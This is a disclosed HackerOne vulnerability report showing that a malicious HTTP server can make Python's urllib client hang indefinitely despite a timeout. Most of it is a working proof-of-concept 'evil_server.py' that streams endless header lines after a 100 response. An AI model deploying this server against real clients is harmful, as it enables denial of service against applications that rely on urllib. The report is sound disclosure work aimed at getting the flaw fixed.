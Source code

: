 # "urllib" will result to deny of service

## Report Details
- **Report ID**: 1188128
- **URL**: https://hackerone.com/reports/1188128
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-05-07T17:14:22.531Z
- **Disclosed**: 2021-10-21T16:39:55.295Z

## Reporter
- **Username**: leveryd
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
if a client request a http/https/ftp service which is controlled by attacker, attacker can make this client hang forever, event client has set "timeout" argument.

maybe this client also will consume more and more memory. i does not test on this conclusion.

client.py
```
import urllib.request

req = urllib.request.Request('http://127.0.0.1:8085')
response = urllib.request.urlopen(req, timeout=1)
```

evil_server.py
```
# coding:utf-8
from socket import *
from multiprocessing import *
from time import sleep

def dealWithClient(newSocket,destAddr):
    recvData = newSocket.recv(1024)
    newSocket.send(b"""HTTP/1.1 100 OK\n""")

    while True:
        # recvData = newSocket.recv(1024)
        newSocket.send(b"""x:a\n""")

        if len(recvData)>0:
            # print('recv[%s]:%s'%(str(destAddr), recvData))
            pass
        else:
            print('[%s]close'%str(destAddr))
            sleep(10)
            print('over')
            break

    # newSocket.close()


def main():

    serSocket = socket(AF_INET, SOCK_STREAM)
    serSocket.setsockopt(SOL_SOCKET, SO_REUSEADDR  , 1)
    localAddr = ('', 8085)
    serSocket.bind(localAddr)
    serSocket.listen(5)

    try:
        while True:
            newSocket,destAddr = serSocket.accept()

            client = Process(target=dealWithClient, args=(newSocket,destAddr))
            client.start()

            newSocket.close()
    finally:
        serSocket.close()

if __name__ == '__main__':
    main()
```

## Impact

if a client request a http/https/ftp service which is controlled by attacker, attacker can make this client hang forever, event client has set "timeout" argument.

more info, see https://bugs.python.org/issue44022

## Attachments
No attachments
